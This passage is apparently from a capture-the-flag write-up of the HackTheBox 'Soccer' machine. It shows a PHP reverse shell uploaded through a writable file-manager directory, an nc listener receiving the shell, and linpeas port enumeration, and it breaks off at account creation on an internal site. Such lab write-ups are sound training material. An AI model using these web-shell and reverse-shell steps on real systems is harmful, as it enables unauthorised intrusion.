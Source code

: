 ## **Foothold**

We can see on the dashboard the same files we found with the directory scan, which means this is the website root folder.

I tried uploading a php shell but we don't have write permissions.

There is an uploads directory in `/tiny` that we can write to.

![up](4.png)

We upload a [php rev shell](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php).

We setup a listener and navigate to our shell at `http://soccer.htb/tiny/uploads/shell.php`

```terminal
[★]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.129.103.148] 54422
SOCKET: Shell has connected! PID: 1800
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## **Privilege Escalation**

After running linpeas we find that port 3000 is listening locally.

```terminal
╔══════════╣ Active Ports                 
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1033/nginx: worker
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                 
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                 
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -                 
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                 
tcp6       0      0 :::80                   :::*                    LISTEN      1033/nginx: worker
tcp6       0      0 :::22                   :::*                    LISTEN   
```

Nginx configuration shows that this port has the hostname `soc-player.soccer.htb` and it's proxied to port 80.

So we can add the hostname to our `/etc/hosts` and access it without any port forward.

![site](5.png)

The website looks like the one we saw before but here we can login and signup.

We don't have any credentials so i'll create an account.

![acc](6.png)
